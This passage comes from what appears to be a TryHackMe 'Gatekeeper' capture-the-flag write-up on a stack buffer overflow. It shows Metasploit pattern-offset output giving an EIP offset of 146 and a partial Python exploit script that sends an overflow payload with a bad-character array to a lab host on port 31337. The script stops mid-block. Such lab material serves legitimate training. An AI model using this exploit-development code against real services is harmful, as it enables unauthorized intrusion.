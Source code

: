 <img src="/assets/images/THM/Gatekeeper/4.png" width="80%">

The value of EIP is `39654138`

Using metasploit framework we can calculate the offset:

```
┌──(simpuar㉿kali)-[/usr/share/metasploit-framework/tools/exploit]
└─$ msf-pattern_offset -l 300 -q 39654138
[*] Exact match at offset 146
```

Now we now the offset: `146`. I will skip the step with checking if we can overwrite ESP with our custom bytes using this offset. 

The next step is to find if there are any badchars.

``` python
#!/usr/bin/env python3

import socket, sys

ip = "10.211.55.3"
port = 31337
payload_length = 300
offset = 146
payload = b'A' * offset + b'B' * 4
badchars = ( b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
b"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
b"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
b"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
b"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
b"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
b"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
b"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
b"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

try:
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  s.connect((ip, port))
  print("Connected")
except Exception as e:
```